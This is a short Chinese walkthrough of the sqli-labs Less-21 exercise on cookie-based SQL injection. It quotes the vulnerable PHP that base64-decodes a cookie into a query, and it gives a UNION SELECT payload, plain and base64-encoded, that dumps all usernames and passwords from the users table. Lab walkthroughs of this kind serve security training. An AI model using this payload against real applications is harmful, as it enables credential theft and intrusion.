



# Less-21 基于错误的复杂的字符型Cookie注入
# 查看分析源码
```php
setcookie('uname', base64_encode($row1['username']));  // base64 编码
$cookee = base64_decode($cookee);
$sql="SELECT * FROM users WHERE username=('$cookee')"; // 闭合 ')
```

相比与上关注入闭合成为') 以及多了base64编码


## burp

可以先复制payload然后利用burp进行base64编码

**注：编码值部分**
与上关类似

## payload：

uname=') union select 1,2,(select group_concat(username,':',password) from users)#

编码后

uname=JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSwnOicscGFzc3dvcmQpIGZyb20gdXNlcnMpIw==

